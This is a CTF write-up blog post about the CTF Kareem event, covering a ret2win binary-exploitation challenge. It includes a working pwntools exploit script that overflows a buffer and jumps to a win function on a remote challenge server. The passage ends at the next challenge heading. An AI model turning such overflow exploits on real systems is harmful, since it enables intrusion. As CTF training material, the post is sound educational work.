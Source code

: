 ```yaml
---
title: CTF Kareem Writeups
description: This is a writeup of the challenges I have solved during the CTF kareem organized by Securinet TEKUP.
author: alternox
date: 2025-03-15 12:00:00 +0000
categories: [Blogging, Writeups]
tags: [Writeups]
render_with_liquid: false
image:
  path: /assets/img/ctfkareem2025/ctfkareemlogo.jpg
---
```


بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ


## Event description

CTF Kareem was a CTF orgnanized by Securinets TEKUP During Ramadhan, an overnight CTF for about 10.30 Hours, me and my team played as "Kaskrout b tey" and landed the first place.

![Scoreboard](/assets/img/ctfkareem2025/scoreboard.jpg)

## Binary Exploitation
### The River's Daughter
Challenge: 
![First Pwn Task](/assets/img/ctfkareem2025/pwntask1.png)

This is a simple ret2win challenge, so we do the usual, calculating the offset then getting the win address:

```python
#!/bin/python3
from pwn import *

local = False
name = 'main' 
e = ELF(name)
if local:
	p = process(name)
else:
	p = remote("51.77.140.155", 1329)
rop = ROP(e)

ret= 0x000000000040101a
win = 0x000000000040132d

payload = cyclic(64+8)
payload += p64(win+1)
p.recv()
p.sendline(payload)
p.interactive()
```

### Patrick Bateman


